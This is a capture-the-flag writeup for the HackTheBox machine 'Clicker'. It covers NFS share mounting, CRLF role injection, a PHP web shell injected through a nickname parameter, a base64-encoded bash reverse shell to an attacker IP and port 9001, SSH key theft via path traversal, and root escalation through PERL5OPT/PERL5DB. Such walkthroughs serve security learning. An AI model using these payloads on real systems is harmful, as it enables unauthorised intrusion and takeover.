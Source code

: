 ```yaml
---
layout: post
title: "Clicker-Linux-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/5a89d213ede5af4b4f94035fd059f976.webp
---
```


# Clicker

HackTheBox: Medium

<aside>
💡 Visual is a linux  machine which handles with mount files

</aside>

## 1: Enumeration

- nmap scanning: Making port scanning we find
1. 80-http
2. 22-ssh
3. 111-rcbind
4. 2049 nfs-acl 

A server with share mounts

```bash
mkdir -p /mnt/nfs_file_shares
cd mnt 
mount -o nolock 10.10.11.232:/mnt/nfs_files_shares
cd backups
```

## 2: User flag

Copy those files to our workspace

- We found some php files looking around (save.php) theres an admin role, we go to http service and register as a user.
- We register burp suite to check request and responses and sent a request changing the role. using CRLF vulnerability

```bash
&role%0a=Admin
```

- Log out and log in again
- We can export some results and change the extension with burp suite for excecute commands in php
- There’s a vulnerable parameter called nickname

```bash
&nickname=<%3fphp+system($_GET['CMD'])+%3f>)
```

Once inside of php file we use

```bash
<file_name>.php?cmd=cat/etc/passwd
```

A user called jack in the machine

We are ready to be data

```bash
echo "sh -i >& /dev/tcp/<your_ip>/9001 0>&1" | base64
```

```bash
echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQ3LzkwMDEgMD4mMQo=%22%20|%20base64%20-d%20|%20bash
```

Estabilize using python

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

There is a PKI we can see it executing

```bash
./execute_query 5 ../.ssh/id_rsa
```

This key has a problem with the format, just change the format and use

```bash
chmod 600 id_rsa 
sudo ssh -i id_rsa jack@10.10.11.232
```

![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled.png' | relative_url }})

## 3: Priv esc

```bash
sudo -l
```

![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_1.png' | relative_url }})

[monitor.sh](http://monitor.sh) execute a xml_pp file lets see what it is

![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_2.png' | relative_url }})

This vulnerability is called as “perl_startup” Privilege Escalation.

That enabled me to execute scripts with root privileges, as I had the ability to configure the environment while running Perl.

```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
bash -p
```

Machine pwned!!!!

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
